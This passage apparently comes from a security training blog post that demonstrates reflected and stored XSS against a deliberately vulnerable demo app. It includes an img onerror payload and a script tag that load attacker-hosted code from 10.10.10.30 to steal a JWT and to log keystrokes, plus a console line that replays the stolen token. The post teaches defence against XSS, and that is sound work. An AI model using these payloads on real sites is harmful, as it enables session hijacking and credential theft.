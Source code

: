 Angular is explicitly trusting the search term is safe (even though it's not safe), and binding it as-is. Normally, Angular wouldn't trust this, but it's been enabled for demonstration purposes (or you could buy the fiction that a foolish developer did it on purpose so that users could put styling tags in their posts). Now, loading in a script here is more of an ask here, but it's doable in a couple of ways:

* Perform an XMLHttpRequest, and evaluate the response; or
* Create a script element, set its source to the target URL, and append it to the `<head>` tag

The latter is easier for our purposes, so let's just do that:

    <img src="///" onerror="a = document.createElement('script'); a.src = 'http://10.10.10.30/exploits/jwt.js'; document.head.appendChild(a);" />

To hijack the session, put your attacker hat on, start the app in another browser window, open up a console and enter in,

    localStorage["ls.currentUser"] = JSON.stringify( your harvested JWT )

then refresh. That's another session hijack successfully executed.

<img src="{{ site.github.url }}/rsillem/assets/security-xss/sessions2.PNG" style="display: block; margin: auto;"/>


Insert a keylogger via Stored XSS
-----
Let's have a look at an example of Stored XSS -- where the dangerous text is stored within the system itself. Open up the Jade example and log in. Try to create a post using some HTML (`<strong>This is bold</strong>`). It should go through fine - it's stored on the server and everyone can load this and see it. Try and make the post as ugly as possible (`<strong style="background-color: hotpink;">What a disaster</strong>`). It may assault your eyes, but isn't actually *harmful* in terms of data security.

But, what would happen if we placed a `<script>` tag in? Since it's loaded in with the rest of the page, the browser should run it just fine. Give it a try with something simple like `<script>console.log("XSS")</script>`. Again, it should go through just fine. Only this time, your code is being run every time the page is loaded, regardless of if you're signed in, or on different browsers or if the user hasn't visited the site until now. Enter in the post:

    Wow what a cool site! <script src="//10.10.10.30/exploits/keylog.js"></script>

It looks like a fairly bland and spammy post, but behind the scenes, the script tag is loaded and the attacker's script is run. Type a few characters, and fire up Dev Tools and the console should show what you've been typing. Now, open up the attacker's site and you'll see that as you type, your keystrokes are being sent to the attacker's site and are updating in real-time. **Everyone** who visits the page is vulnerable. If you've played with BeEF (see above) you may also have come across its Man-In-The-Browser command, which illustrates the fact that this keylogger attack could potentially be extended beyond the confines of the Posts page and into the Login page. Again, we're not going to do that here - we're interested in defending against the XSS vulnerability that opens the door to these attacks.

<img src="{{ site.github.url }}/rsillem/assets/security-xss/keylogger.PNG" style="display: block; margin: auto;"/>


Review your data/command flows
-----
